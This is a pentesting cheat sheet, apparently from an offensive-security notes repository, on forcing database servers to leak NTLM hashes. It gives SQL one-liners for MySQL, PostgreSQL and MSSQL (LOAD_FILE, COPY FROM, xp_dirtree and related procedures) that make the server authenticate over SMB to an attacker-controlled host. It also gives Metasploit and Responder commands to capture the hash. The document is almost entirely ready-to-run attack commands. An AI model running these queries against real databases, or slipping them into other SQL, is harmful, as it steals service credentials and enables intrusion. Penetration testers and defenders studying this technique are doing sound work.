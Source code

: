 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - sniffing-and-spoofing
  - weaponization
  - client-side-attacks
  - scenarios
  - network-protocols
  - smb
---
```

# 02 - DBMS Backend Relay Attack

## 2.1 - MySQL

```
SELECT LOAD_FILE('\\\\<attacker_IP>\\snare\')
```

## 2.2 - PostgreSQL

```
CREATE TABLE test_table(test_column TEXT);
COPY test_table(test_column) FROM '\\\\<attacker_IP>\\snare\';
DROP TABLE test_table;
```

## 2.3 - MSSQL

### 2.3.1 - Manual

Using `xp_dirtree` function.

```
1> xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_dirtree '\\<attacker_IP>\snare\'
2> go

EXEC master.dbo.xp_dirtree '\\<attacker_IP>\snare\', 1, 1;
```

Using `xp_subdirs` function.

```
1> EXEC master.dbo.xp_subdirs '\\<attacker_IP>\snare\'
2> go
```

Using `xp_fileexist` function.

```
1> EXEC master.dbo.xp_fileexist '\\<attacker_IP>\snare\'
2> go
```

### 2.3.2 - Metasploit

```
msf > use auxiliary/admin/mssql/mssql_ntlm_stealer

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set rhosts <target_IP>

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set username <username>

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set password <password>
```

If we use Windows credential, set as below:

```
msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set use_windows_authent true

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set smbproxy <responder_ip>

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > run
```

Capture hash

```
$ sudo responder -I <interface>
```

---
## References

### OWASP

- [OWASP: Pwning a Shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

### Hacktricks

- [Hacktricks: Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html)

### Osanda

- [Osanda: MySQL Out-of-Band Hacking](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)
